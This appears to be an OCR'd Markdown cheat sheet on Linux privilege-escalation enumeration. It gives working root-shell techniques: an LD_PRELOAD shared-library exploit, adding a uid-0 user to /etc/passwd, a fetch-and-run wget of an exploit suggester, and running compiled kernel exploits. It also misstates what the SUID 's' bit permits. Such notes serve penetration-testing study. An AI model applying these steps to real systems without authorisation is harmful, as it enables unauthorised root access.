 Here is the content formatted in Markdown (MD):

```markdown
# Linux Privilege Escalation Enumeration

## Basic Enumeration

- **`cat /etc/os-release`**  
  To identify the OS version and check if it is vulnerable.

- **`echo $PATH`**  
  To view the current PATH variable. You can add a new path to execute commands using:  
  `export PATH=$PATH:New_Path`

- **`env`**  
  To list the environment variables of the Linux machine.

---

## Kernel Exploit

- **`cat /proc/version`**  
  To determine the kernel version.

- **`uname -a`**  
  To get detailed information about the kernel version.

- **`lscpu`**  
  To gather more information about the CPU.

- **`cat /etc/shells`**  
  To list available shells on the system.

---

## Permissions

### SUID and SGID Bits
- **Setuid (SUID)**:  
  When set, files will execute with the privileges of their owner.

- **Setgid (SGID)**:  
  When set, files will execute with the privileges of their group. If set on a directory, files created within that directory will inherit the group of the directory itself.

### File Permissions
- The format `-rwxrwxrwx`:  
  - The first `rwx` is for the owner.  
  - The second `rwx` is for the group.  
  - The third `rwx` is for others.

- SUID/SGID permissions are represented by an `'s'` in the execute position.  

### SETUID and SETGID Permissions
Binaries with these permissions allow a user to run a command as root without granting root-level access directly. For example:
```
ahmed💀ahmed:~$ ls -lah /bin/passwd
-rwsr-xr-x 1 root root 116K Dec 6 07:51 /bin/passwd
```
The letter `s` in place of `x` indicates that anyone can read, write, and execute with all permissions as the owner.

---

## Finding Files and Directories

### Find All Files with SETUID Permissions
Use:
```
find / -perm -4000 -o -perm -2000 -type f 2>/dev/null
```

#### Explanation:
- **`find /`:** Starts searching from the root directory (`/`) and includes all subdirectories.
- **`-perm -4000`:** Matches files with the SUID (Set User ID) bit set, allowing execution with the file owner's permissions.
- **`-o`:** Logical OR operator.
- **`-perm -2000`:** Matches files with SGID (Set Group ID) bit set, allowing execution with group permissions.
- **`-type f`:** Restricts search to regular files only.
- **`2>/dev/null`:** Silences error messages (e.g., "Permission denied").

---

### Find All Writable Directories
Use:
```
find / -path /proc -prune -o -type d -perm -o+w 2>/dev/null
```

#### Explanation:
- **`find /`:** Starts searching from the root directory (`/`) and includes all subdirectories.
- **`-path /proc`:** Specifies `/proc`, a virtual filesystem, to exclude from the search.
- **`-prune`:** Prevents descending into `/proc`.
- **`-o`:** Logical OR operator.
- **`-type d`:** Restricts search to directories only.
- **`-perm -o+w`:** Matches directories that are world-writable (writable by any user).
- **`2>/dev/null`:** Silences error messages (e.g., "Permission denied").

---

## Managing SUID Permissions

### Set SUID Bit
Use:
```
chmod u+s filename
```

### Remove SUID Bit
Use:
```
chmod u-s filename
```

---

## Groups and Users

To find groups and users in those groups, use:
```
cat /etc/group
```

To find users in a specific group:
```
getent group sudo   # Replace "sudo" with your group name
```
Example output:
```
sudo:x:27:ahmed
```

---

## Kernel Exploits

### Exploit Example Using GCC
1. Use `uname -a` to find kernel details.
2. Search for an exploit online matching your kernel version.
3. Compile a C exploit file using:
   ```
   gcc filename.c -o filename && chmod +x filename && ./filename
   ```
4. Run it to escalate privileges.

### Using Linux Exploit Suggester
Download and run Linux Exploit Suggester:
```
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh -O les.sh && chmod +x ./les.sh && ./les.sh
```
Example output:
```
Kernel version: 6.12.13
Architecture: x86_64

Possible Exploits:

[+] [CVE-2022-2586] nft_object UAF
    Details: https://www.openwall.com/lists/oss-security/2022/08/29/5

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write
    Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
```

---

## Shared Libraries Exploitation

If `sudo -l` reveals `env_keep+=LD_PRELOAD`, you can exploit shared libraries.

1. Check shared libraries for a binary using:
   ```
   ldd /usr/bin/openssl   # Replace with your binary path.
   ```
2. Create an exploit file (`exploit.c`) like this:
   ```
   #include 
   #include 
   #include 
   #include 

   void _init() {
       unsetenv("LD_PRELOAD");
       setgid(0);
       setuid(0);
       system("/bin/bash");
   }
   ```
3. Compile it as a shared library:
   ```
   gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
   ```
4. Execute it using:
   ```
   sudo LD_PRELOAD=/path/to/exploit.so openssl
   ```

---

## Using `/etc/passwd`

1. Check `/etc/passwd` for writable permissions:
   ```
   ls -lah /etc/passwd 
   ```
2. Generate a password hash using OpenSSL:
   ```
   openssl passwd 12345    # Replace "12345" with your password.
   ```
3. Edit `/etc/passwd`, replacing `x` in `root:x:` with your hash or adding a new user entry like this:
   ```
   newuser:$1$oEIT0M6j$sludhsYV1KW0pLn1tRIt61:0:0::/root:/bin/bash
   ```

Alternatively, if `/etc/shadow` is readable, extract hashes and crack them using tools like Hashcat or John.

To create a password hash for `/etc/shadow`, use:
```
mkpasswd -m sha-512 newpassword    # SHA-512 is commonly used in `/etc/shadow`.
```
```

---
